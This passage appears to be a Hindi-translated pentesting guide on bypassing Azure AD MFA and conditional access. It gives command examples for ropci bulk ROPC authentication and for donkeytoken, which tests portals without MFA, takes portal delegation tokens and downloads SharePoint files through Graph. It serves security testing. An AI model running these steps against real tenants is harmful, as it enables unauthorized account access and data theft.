 यह उपकरण MFA बायपास की पहचान करने और फिर कई उत्पादन AAD टेनेन्ट्स में APIs का दुरुपयोग करने में मदद करता है, जहाँ AAD ग्राहक मानते थे कि उनके पास MFA लागू है, लेकिन ROPC आधारित प्रमाणीकरण सफल रहा।

{% hint style="success" %}
आपको सभी अनुप्रयोगों की सूची बनाने के लिए अनुमतियाँ होनी चाहिए ताकि आप ब्रूट-फोर्स करने के लिए अनुप्रयोगों की सूची उत्पन्न कर सकें।
{% endhint %}
```bash
./ropci configure
./ropci apps list --all --format json -o apps.json
./ropci apps list --all --format json | jq -r '.value[] | [.displayName,.appId] | @csv' > apps.csv
./ropci auth bulk -i apps.csv -o results.json
```
### [donkeytoken](https://github.com/silverhack/donkeytoken)

Donkey token एक सेट फ़ंक्शंस का है जो सुरक्षा सलाहकारों की मदद करने के लिए है जिन्हें Conditional Access Policies को मान्य करने, 2FA-सक्षम Microsoft पोर्टल्स के लिए परीक्षण करने आदि की आवश्यकता होती है।

<pre class="language-powershell"><code class="lang-powershell"><strong>git clone https://github.com/silverhack/donkeytoken.git
</strong><strong>Import-Module '.\donkeytoken' -Force
</strong></code></pre>

**प्रत्येक पोर्टल का परीक्षण करें** कि क्या **MFA के बिना लॉगिन करना संभव है**:
```powershell
$username = "conditional-access-app-user@azure.training.hacktricks.xyz"
$password = ConvertTo-SecureString "Poehurgi78633" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($username, $password)
Invoke-MFATest -credential $cred -Verbose -Debug -InformationAction Continue
```
क्योंकि **Azure** **पोर्टल** **सीमित नहीं** है, इसलिए **पोर्टल एंडपॉइंट से किसी भी सेवा तक पहुँचने के लिए एक टोकन इकट्ठा करना संभव है जो पिछले निष्पादन द्वारा पता लगाया गया था**। इस मामले में Sharepoint की पहचान की गई, और इसे एक्सेस करने के लिए एक टोकन का अनुरोध किया गया:

{% code overflow="wrap" %}
```powershell
$token = Get-DelegationTokenFromAzurePortal -credential $cred -token_type microsoft.graph -extension_type Microsoft_Intune
Read-JWTtoken -token $token.access_token
```
{% endcode %}

मान लीजिए कि टोकन के पास Sites.Read.All (Sharepoint से) की अनुमति है, भले ही आप MFA के कारण वेब से Sharepoint तक पहुँच नहीं पा रहे हैं, फिर भी आप उत्पन्न टोकन का उपयोग करके फ़ाइलों तक पहुँचने के लिए टोकन का उपयोग कर सकते हैं:
```powershell
$data = Get-SharePointFilesFromGraph -authentication $token $data[0].downloadUrl
```
## संदर्भ

* [https://www.youtube.com/watch?v=yOJ6yB9anZM\&t=296s](https://www.youtube.com/watch?v=yOJ6yB9anZM\&t=296s)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)
